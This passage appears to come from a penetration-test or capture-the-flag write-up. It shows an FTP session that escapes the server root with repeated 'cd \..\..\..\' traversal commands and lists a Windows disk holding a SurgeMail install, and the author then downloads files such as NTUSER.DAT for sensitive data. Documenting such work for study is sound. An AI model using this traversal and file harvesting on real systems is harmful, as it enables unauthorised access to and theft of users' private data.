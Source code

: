 ```
dr-xrwx--- 1 admin users              0 May 04 00:10 Start Menu
dr-xrwx--- 1 admin users              0 May 04 00:10 Templates
dr-xrwx--- 1 admin users              0 Jul 13 2009 Videos
-r--rr---- 1 admin users         262144 May 04 00:10 NTUSER.DAT
-r--rr---- 1 admin users         226304 May 04 00:10 ntuser.dat.LOG1
-r--rr---- 1 admin users              0 May 04 00:10 ntuser.dat.LOG2
-r--rr---- 1 admin users          65536 May 04 00:10 NTUSER.DAT{6cced2f1-...
-r--rr---- 1 admin users         524288 May 04 00:10 NTUSER.DAT{6cced2f1-...
-r--rr---- 1 admin users         524288 May 04 00:10 NTUSER.DAT{6cced2f1-...
-r--rr---- 1 admin users             20 May 04 00:10 ntuser.ini
226 Transfer complete.
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../......".
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection for listing
dr-xrwx--- 1 admin users              0 May 03 23:05 Administrator
dr-xrwx--- 1 admin users              0 Jul 13 2009 All Users
dr-xrwx--- 1 admin users              0 Aug 31 2009 Default
dr-xrwx--- 1 admin users              0 Jul 13 2009 Default User
dr-xrwx--- 1 admin users              0 May 04 00:06 devil
dr-xrwx--- 1 admin users              0 May 04 00:08 ftp
dr-xrwx--- 1 admin users              0 Jul 13 2009 Public
dr-xrwx--- 1 admin users              0 May 04 00:10 TEMP
-r--rr---- 1 admin users            174 Jul 13 2009 desktop.ini
226 Transfer complete.
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../....../......".
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection for listing
dr-xrwx--- 1 admin users              0 May 03 22:58 $Recycle.Bin
dr-xrwx--- 1 admin users              0 Jul 13 2009 Documents and Settings
dr-xrwx--- 1 admin users              0 Jul 13 2009 PerfLogs
dr-xrwx--- 1 admin users              0 May 03 19:20 Program Files
dr-xrwx--- 1 admin users              0 May 03 19:21 ProgramData
dr-xrwx--- 1 admin users              0 May 03 22:51 Python26
dr-xrwx--- 1 admin users              0 Apr 30 01:21 Recovery
dr-xrwx--- 1 admin users              0 May 06 05:01 surgemail
dr-xrwx--- 1 admin users              0 May 03 22:38 System Volume Information
dr-xrwx--- 1 admin users              0 May 04 00:10 Users
dr-xrwx--- 1 admin users              0 May 03 21:28 Windows
-r--rr---- 1 admin users             24 Jun 10 2009 autoexec.bat
-r--rr---- 1 admin users             10 Jun 10 2009 config.sys
-r--rr---- 1 admin users     2043449344 May 03 23:14 pagefile.sys
-r--rr---- 1 admin users       12645888 May 03 05:53 surgemail_installer.exe
226 Transfer complete.
ftp>
```

Nice, so we have access to the entire disk.   I started downloading most of the files, to see if I would need to analyze them later on.  (After all, files such as NTUSER.dat.* may contain sensitive information)
